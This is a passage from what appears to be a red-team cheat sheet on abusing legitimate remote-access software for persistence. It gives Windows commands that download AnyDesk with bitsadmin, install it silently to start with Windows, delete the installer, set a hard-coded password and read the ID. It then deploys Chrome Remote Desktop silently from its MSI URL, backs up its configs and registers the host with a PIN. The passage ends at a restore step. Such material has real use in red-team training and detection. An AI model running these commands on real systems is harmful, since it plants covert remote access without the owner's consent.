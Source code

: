 - [https://support.anydesk.com/knowledge/use-cases-for-the-command-line-interface](https://support.anydesk.com/knowledge/use-cases-for-the-command-line-interface)
- [https://support.anydesk.com/knowledge/command-line-interface-for-windows](https://support.anydesk.com/knowledge/command-line-interface-for-windows)

```
Cmd > bitsadmin /transfer job1 https://download.anydesk.com/AnyDesk-CM.exe C:\Users\snovvcrash\AppData\Local\Temp\anydesk.exe
Cmd > C:\Users\snovvcrash\AppData\Local\Temp\anydesk.exe --install C:\Users\snovvcrash\AppData\Local\AnyDesk --start-with-win --silent
Cmd > del C:\Users\snovvcrash\AppData\Local\Temp\anydesk.exe
Cmd > echo Passw0rd! | C:\Users\snovvcrash\AppData\Local\AnyDesk\AnyDesk.exe --set-password
Cmd > cmd /c "for /f ""delims="" %i in ('C:\Users\snovvcrash\AppData\Local\AnyDesk\AnyDesk.exe --get-id') do echo %i"
Cmd > C:\Users\snovvcrash\AppData\Local\AnyDesk\AnyDesk.exe --remove
```



### Chrome Remote Desktop

- [https://trustedsec.com/blog/abusing-chrome-remote-desktop-on-red-team-operations-a-practical-guide](https://trustedsec.com/blog/abusing-chrome-remote-desktop-on-red-team-operations-a-practical-guide)

Deploy MSI (if Chrome Remote Desktop is NOT already in use on client):

```
Cmd > msiexec /i https://dl.google.com/edgedl/chrome-remote-desktop/chromeremotedesktophost.msi /qn
```

Backup current config (if Chrome Remote Desktop is already in use on client):

```
Cmd > copy /y "%PROGRAMDATA%\Google\Chrome Remote Desktop\host.json" "%PROGRAMDATA%\Google\Chrome Remote Desktop\host.json.bak"
Cmd > copy /y "%PROGRAMDATA%\Google\Chrome Remote Desktop\host_unprivileged.json" "%PROGRAMDATA%\Google\Chrome Remote Desktop\host_unprivileged.json.bak"
PS > cp -Force "${Env:PROGRAMDATA}\Google\Chrome Remote Desktop\host.json" "${Env:PROGRAMDATA}\Google\Chrome Remote Desktop\host.json.bak"
PS > cp -Force "${Env:PROGRAMDATA}\Google\Chrome Remote Desktop\host_unprivileged.json" "${Env:PROGRAMDATA}\Google\Chrome Remote Desktop\host_unprivileged.json.bak"
```

Register device (sometimes `CurrentVersion` path not working, explicit existing version provision may help):

```
Cmd > "%PROGRAMFILES(X86)%\Google\Chrome Remote Desktop\CurrentVersion\remoting_start_host.exe" --code="<CODE>" --redirect-url="https://remotedesktop.google.com/_/oauthredirect" --name=%COMPUTERNAME% --pin=313337
PS > & "${Env:PROGRAMFILES(X86)}\Google\Chrome Remote Desktop\CurrentVersion\remoting_start_host.exe" --code="<CODE>" --redirect-url="https://remotedesktop.google.com/_/oauthredirect" --name=$Env:COMPUTERNAME --pin=313337
```

Restore config (and lose access) if needed:
